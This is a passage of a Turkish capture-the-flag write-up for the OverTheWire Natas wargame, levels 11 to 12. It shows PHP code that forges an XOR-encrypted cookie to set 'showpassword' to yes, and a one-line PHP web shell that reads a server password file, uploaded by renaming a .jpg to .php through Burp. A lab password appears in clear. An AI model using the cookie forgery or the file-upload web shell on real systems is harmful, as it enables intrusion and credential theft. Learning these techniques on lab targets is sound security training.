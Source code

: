 ```terminal
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
``` 

elde edilmiştir. Burada **key** variableına "qw8J" değerini verip tekrar çalıştırıldığında json formatındaki datanın encode halinin return edildiği görülmektedir.

```terminal
 function xor_encrypt1() {  
   $text = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));  
   $key = "qw8J";    
   $outText = '';  
   // Iterate through each character  
   for($i=0;$i<strlen($text);$i++) {  
   $outText .= $text[$i] ^ $key[$i % strlen($key)];  
   }  
   return $outText;  
 }  
 print base64_encode(xor_encrypt1());
```

```terminal
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

Burp ile cookie değiştirilip gönderilerek password elde edilmiştir.

```terminal
Cookies are protected with XOR encryption<br/><br/>

The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3<br>
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3")


Natas Level 11 → Level 12
======

+ Username: natas12
+ URL:      http://natas12.natas.labs.overthewire.org

Hint;
- Sourcecode


```terminal
<?php
passthru('cat /etc/natas_webpass/natas13');
?>
```

Bir dosyaya yukarıdaki komutaları kaydedip servera upload edilmiştir. Bu sırada Burp ile gönderilen dosyaya rastgele isim atandığında jpg uzantısı yerine php yazılarak gönderilmiştir. Serverın verdiği urle gidilerek password elde edilmiştir.
